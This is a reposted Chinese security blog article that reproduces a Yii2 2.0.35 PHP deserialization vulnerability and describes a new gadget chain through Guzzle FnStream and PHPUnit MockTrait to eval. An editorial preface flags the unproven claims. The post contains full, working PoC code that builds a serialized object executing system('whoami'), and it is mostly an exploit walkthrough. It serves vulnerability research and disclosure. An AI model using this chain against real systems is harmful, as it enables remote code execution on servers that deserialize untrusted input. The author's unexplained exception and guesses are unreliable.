## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Yii2.0.35+PHP7.4.3，称2.0.38修复；必须自建unserialize、特定Guzzle/PHPUnit开发依赖

代码与实验材料：完整FnStream/phpinfo与MockTrait.generate两种代码，作者遇throw并提出未证猜测

来源证据范围：官方GHSA/release、JOHNSON/补天原文

- **证据待核（1）**：新链成功证据与异常原因未厘清；依据：声称加phpinfo即可解决异常，猜大输出触发分段传输，没有说明FnStream防反序列化或异常析构行为；不能当验证已成功。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（2）**：依赖版本与生产可达性缺失；依据：Guzzle FnStream及PHPUnit MockTrait是关键且可能仅dev依赖，不能只按Yii版本判断。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（3）**：源码检索正则不代表数据可控；依据：\[^if \]\[^foreach \]等是字符类不是排除关键字，找到调用并不证明污点可达。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（4）**：需前置自建入口限定；依据：文章确实手加unserialize，标题应说明gadget研究而不是原生应用自动可利用。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Yii 反序列化漏洞复现到新利用链发现

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/KCGGMBxmW5LSIey5nN7BDg)

  

  

**技术模块持续征稿 ing**  

· 基础稿费、额外激励、推荐作者、连载均有奖励，年度投稿 top3 还有神秘大奖！

· 投稿请将个人联系方式 (微信，QQ，手机号) 和文章发送到

邮箱：butian_tougao@qianxin.com

[点击链接了解征稿详情](https://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489051&idx=1&sn=0f4d1ba03debd5bbe4d7da69bc78f4f8&scene=21#wechat_redirect)

前言
--

我是刚入门不久的小白, 如果有什么地方不对，请师父们及时指正. 本文参考奶权师傅的 Yii 复现文章，受益匪浅，自己调试的时候发现了一个新的利用链，于是来分享下

开始
--

反序列化漏洞影响到 2.0.38 被修复 https://github.com/yiisoft/yii2/security/advisories/GHSA-699q-wcff-g9mj  


Hello World
-----------

由于挖洞的时候遇到一个 cms 是 Yii2.0.35 的所以我选择复现 Yii2.0.35: https://github.com/yiisoft/yii2/releases/tag/2.0.35, 跟着文档把 Hello World 写出来. 大概了解一下开发流程.

环境我用：phpstudy 集成环境. apache2.4.39 + php 7.4.3 + phpstorm 开启 xdebug;

如下，我创建了一个 action：http://127.0.0.1/yii2.0.35/web/index.php?r=test/index, controllers 的命名是 名称 Controller，action 的命名是: action 名称



/views/test/index.php. 其中 test 是控制器 (controller) 的名称。index 是 render 中的 view 参数命名的



页面效果,



小技巧
---

在开始追踪利用连前, 提供一些小技巧, 另外我喜欢用 Vscode 来匹配内容 (因为 Vscode 点击相应的搜索结果可以快速的定位到, 方便查看), 用 phpstorm 跟踪函数

正则匹配可控的方法

```
->\$([a-zA-Z0-9_-]+)\(
```



正则匹配可控的传入参数

```
[^if ][^foreach ][^while ]\(\$([a-zA-Z0-9_-]+)->
```



反序列化利用链
-------

全局搜索 __destruct (反序列化后, 销毁对象时会触发的函数), 定位到 vendor/yiisoft/yii2/db/BatchQueryResult.php, 给 this->reset();

```
public function __destruct()
{
    // make sure cursor is closed
    $this->reset();
}
```

跟踪 restet 方法, 反序列化时, 反序列化的对象成员属性也是可控的. 所以 $this->_dataReader 可控， 可以进入 close 方法.

```
public function reset()
{
    if ($this->_dataReader !== null) {
        $this->_dataReader->close();
    }
    $this->_dataReader = null;
    $this->_batch = null;
    $this->_value = null;
    $this->_key = null;
}
```

那么这里就形成了一个跳板. 全局找 close() 方法. 最后在 /vendor/guzzlehttp/psr7/src/FnStream.php 中找到一个非常危险的 close 方法, 该方法接收一个参数, 是可控的成员属性.

```
public function close()
{
    return call_user_func($this->_fn_close);
}
```

POC 编写.
-------

先提供一个反序列化的点. 修改 TestController 不要 render. 直接 var_dump unserialize;

```
class TestController extends Controller {
    public function actionIndex($message="Hello") {
        var_dump(unserialize($message));
//        return $this->render("index", ['message'=>$message]);
    }
}
```

对于 poc 的编写, 需要注意命名空间. 否则无法定位到相应的类. 也因为他会自动定位到相应的类，所以不用像原本定义一样继承相应的父类.

vendor/yiisoft/yii2/db/BatchQueryResult.php

```
namespace yii\db;
class BatchQueryResult {
    // 需要控制的成员属性
    private $_dataReader;
}
```

vendor/guzzlehttp/psr7/src/FnStream.php

```
namespace GuzzleHttp\Psr7;
class FnStream implements StreamInterface {
    // 需要控制的参数, 原本并没有定义所以无要求
    var $_fn_close;
}
```

poc 如下

```
<?php
namespace GuzzleHttp\Psr7 {
    class FnStream {
        var $_fn_close = "phpinfo";
    }
}
namespace yii\db {
    use GuzzleHttp\Psr7\FnStream;
    class BatchQueryResult {
        // 需要控制的成员属性
        private $_dataReader;
        public function __construct() {
            $this->_dataReader  = new FnStream();
        }
    }
    $b = new BatchQueryResult();
    var_dump(serialize($b));
}
```

执行成功.  


危害放大
----

可以注意到, FnStream 类中的 call_user_func 只有一个参数. 翻一翻官方文档，发现了相应的解决方法. 所以遇到阻塞时，多翻翻手册也许会柳暗花明



如果要放大危害，这里只能作为跳板，还需要一个类. 全局搜索各危险函数. 寻找参数可控的方法.

在 vendor\phpunit\phpunit\src\Framework\MockObject\MockTrait.php 中找到了相应的方法

```
public function generate(): string
{
    if (!\class_exists($this->mockName, false)) {
        eval($this->classCode);
    }
    return $this->mockName;
}
```

修改 poc

```
<?php
namespace PHPUnit\Framework\MockObject{
    class MockTrait {
        private $classCode = "system('whoami');";
        private $mockName = "anything";
    }
}
namespace GuzzleHttp\Psr7 {
    use PHPUnit\Framework\MockObject\MockTrait;
    class FnStream {
        var $_fn_close;
        function __construct() {
            $this->_fn_close = array(
                new MockTrait(),
                'generate'
            );
        }
    }
}
namespace yii\db {
    use GuzzleHttp\Psr7\FnStream;
    class BatchQueryResult {
        // 需要控制的成员属性
        private $_dataReader;
        function __construct() {
            $this->_dataReader  = new FnStream();
        }
    }
    $b = new BatchQueryResult();
    file_put_contents("poc.txt", serialize($b));
}
```

再次尝试, 报错了！！！这是修复了吗??，低版本也？  


但是 phpinfo() 可以正常执行. 当我再回去看的时候. 我发现我漏掉了最底下的报错信息！！！。

先将 poc 复原到 phpinfo(); 可以看到虽然 throw 了, 但 phpinfo 正常执行. 不清楚是什么原因。我的猜想是: phpinfo 回显内容过大触发了分段传输. 我会继续研究这个问题.



利用这个方法. 修改一下 poc，加上 phpinfo();

最终 poc
------

```
<?php
namespace PHPUnit\Framework\MockObject{
    class MockTrait {
        private $classCode = "system('whoami');phpinfo();";
        private $mockName = "anything";
    }
}
namespace GuzzleHttp\Psr7 {
    use PHPUnit\Framework\MockObject\MockTrait;
    class FnStream {
        var $_fn_close;
        function __construct() {
            $this->_fn_close = array(
                new MockTrait(),
                'generate'
            );
        }
    }
}
namespace yii\db {
    use GuzzleHttp\Psr7\FnStream;
    class BatchQueryResult {
        // 需要控制的成员属性
        private $_dataReader;
        function __construct() {
            $this->_dataReader  = new FnStream();
        }
    }
    $b = new BatchQueryResult();
    file_put_contents("poc.txt", serialize($b));
}
```

整理一下反序列化链



  

---

END

  

【版权说明】本作品著作权归 JOHNSON 所有，授权补天漏洞响应平台独家享有信息网络传播权，任何第三方未经授权，不得转载。

  

  


JOHNSON

  

一个每天都在努力追赶大佬脚步的小白

  

  

  

问

  

如何加入【**补天技术交流群**】

答

  

1. 仔细阅读本期技术文章

2. 添加运营小姐姐 vx（**doublex_meow**）

3. 正确回答小姐姐提出的问题（关于本期文章）

4. 成功加入补天技术交流群与各位大牛师傅愉快交流辣！

**敲黑****板！转发≠学会，课代表给你们划重点了**

复习列表

  

  

  

  

  

[记一次文件上传的曲折经历](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489568&idx=1&sn=56beddb5ef58d9556d75bbd8dd146dd2&chksm=eafa506cdd8dd97a9420b312770c8ea1bdeb0394ce38ef54834e60e91c0b404f934ac494ca3c&scene=21#wechat_redirect)

  

[代码审计之某通用商城系统 getshell 过程](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489526&idx=1&sn=4aff9ea53f24c6ce92725a1572f27373&chksm=eafa5fbadd8dd6ac5fff4672ac1deb8a77d43dc28edaa31cde0d5271f16ded9a7a6942716c10&scene=21#wechat_redirect)

  

[硬核黑客笔记 - 怒吼吧电磁波 (上)](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489491&idx=1&sn=4ab4db01f63ca3c82c155d82c92b2662&chksm=eafa5f9fdd8dd689bc8cbcde1bb488372f50008619d25ca292753b0356eba4ea405db20349b4&scene=21#wechat_redirect)

  

[从 WEB 弱口令到获取集权类设备权限的过程](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489456&idx=1&sn=a156b1a398e53e0c0d1cc1b8f4bc78f7&chksm=eafa5ffcdd8dd6eae463303a99720247160a79218e86ee494c5defbf6e9d4be0a9b63b13775c&scene=21#wechat_redirect)

  

[一个域内特权提升技巧 | 文末双重福利](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489414&idx=1&sn=f9addeb81e8a2ea160e043ee2b19a4cf&chksm=eafa5fcadd8dd6dc815cdbd43b7311a447ccabb35c98519237448cb643d183b2c264e073bc16&scene=21#wechat_redirect)

  

[记一次域渗透靶场学习过程](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489355&idx=1&sn=1b34df785611bf0be65d748d9f6a6608&chksm=eafa5f07dd8dd61177dedb16e437980d4c0ebd0615a821bcf2c09e25e2ebe8a60f156ba1a432&scene=21#wechat_redirect)

  

  

分享、点赞、在看，一键三连，yyds。


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
